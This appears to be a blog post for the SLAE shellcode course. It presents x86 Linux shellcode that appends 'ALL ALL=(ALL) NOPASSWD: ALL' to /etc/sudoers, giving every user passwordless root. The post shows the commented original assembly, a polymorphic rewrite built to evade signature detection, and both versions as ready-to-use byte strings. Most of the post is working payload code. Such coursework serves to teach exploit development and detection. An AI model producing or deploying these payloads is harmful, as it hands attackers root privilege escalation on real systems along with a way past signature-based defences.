 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 2 Sudoers
subtitle: Polymorphic Shellcode Part 2
tags: [SLAE]
---
```


Overview
======

The first chosen shellcode from shell-storm is the 'sudoers' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-62.php). This shellcode writes 'ALL ALL=(ALL) NOPASSWD: ALL\n' to the '/etc/sudoers' file.

The original code can be seen fully commented below:


```
global _start			

section .text
_start:


;open("/etc/sudoers", O_WRONLY | O_APPEND);
	xor eax, eax	; clearing eax register
	push eax	; pushing 0 to the stack
	push 0x7372656f ; pushing /etc/sudoers
	push 0x6475732f
	push 0x6374652f
	mov ebx, esp	; moving stack pointer to ebx
	mov cx, 0x401	; moving 1025 to ecx 
	mov al, 0x05	; moving 5 to eax for the open syscall
	int 0x80	; interupt to call syscall

	mov ebx, eax    ; move the returned fd into ebx

	;write(fd, ALL ALL=(ALL) NOPASSWD: ALL\n, len);
	xor eax, eax	; clear eax register again
	push eax	; push 0 to the stack
	push 0x0a4c4c41	; pushing ALL ALL=(ALL) NOPASSWD: ALL\n
	push 0x203a4457
	push 0x53534150
	push 0x4f4e2029
	push 0x4c4c4128
	push 0x3d4c4c41
	push 0x204c4c41
	mov ecx, esp	; moving stack pointer to ecx
	mov dl, 0x1c	; moving 28 to edx for the length
	mov al, 0x04	; moving 4 to eax for the write syscall
	int 0x80	; interupt to call syscall

	;close(file)
	mov al, 0x06	; move 6 to eax
	int 0x80	; interupt to call syscall

	;exit(0);
	xor ebx, ebx	; clear ebx register
	mov al, 0x01	; mov 1 to eax
	int 0x80	;interupt to call syscall
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen below:

```
global _start			

section .text
_start:


;open("/etc/sudoers", O_WRONLY | O_APPEND);
	xor edx, edx
	mul edx
	push edx
	
	mov ebx, 0x7372656f 
	push ebx
	mov ebx, 0x6475732f
	push ebx
	mov ebx, 0x6374652f
	push ebx
	mov ebx, esp
	mov cx, 0x401
	add al, 0x05
	int 0x80

	xchg ebx, eax  

	;write(fd, ALL ALL=(ALL) NOPASSWD: ALL\n, len);
	mul edx
	push edx
	push 0x0a4c4c41
	push 0x203a4457
	push 0x53534150
	push 0x4f4e2029
	push 0x4c4c4128
	push 0x3d4c4c41
	push 0x204c4c41
	mov ecx, esp
	add dl, 0x1c
	add al, 0x04
	int 0x80

	;close(file)
	mov al, 0x06
	int 0x80

	;exit(0);
	xor ebx, ebx
	mul ebx
	inc eax
	int 0x80
```

It can be clearly seen that the 'sudoers' section of the code is completely different from before, whilst maintaining a relatively small size. 

With this shellcode, it was a bit more difficult to rewrite it as was done with the first shellcode, so other techniques were used to make this code polymorphic. Due to this however, the codes size has increased. Different techniques were used to change this shellcode, including changing what registers were used, pushing data to the stack using registers and clearing registers differently. 


When compiled and the extracted, the shellcode appears as follows:

**Original**

```
"\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80"
```

**Polymorphic**

```
"\x31\xd2\xf7\xe2\x52\xbb\x6f\x65\x72\x73\x53\xbb\x2f\x73\x75\x64\x53\xbb\x2f\x65\x74\x63\x53\x89\xe3\x66\xb9\x01\x04\x04\x05\xcd\x80\x93\xf7\xe2\x52\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\x80\xc2\x1c\x04\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xf7\xe3\x40\xcd\x80"
```

As can be seen, the polymorphic shellcode greatly varies from the original and is less than 150% of the size of the original. 

